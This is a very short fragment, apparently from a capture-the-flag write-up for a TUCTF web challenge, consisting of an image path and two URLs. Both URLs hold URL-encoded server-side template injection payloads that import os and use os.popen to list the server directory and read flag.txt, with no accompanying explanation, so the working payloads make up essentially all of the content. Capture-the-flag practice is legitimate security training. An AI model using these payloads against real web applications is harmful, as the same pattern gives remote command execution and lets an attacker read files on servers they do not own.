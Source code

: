 ## 

`http://chal.tuctf.com:30007/welcome/%7B%%20import%20os%20%%7D%7B%7Bos.popen('ls').read()%7D%7D`
`http://chal.tuctf.com:30007/welcome/%7B%%20import%20os%20%%7D%7B%7Bos.popen('cat%20flag.txt').read()%7D%7D`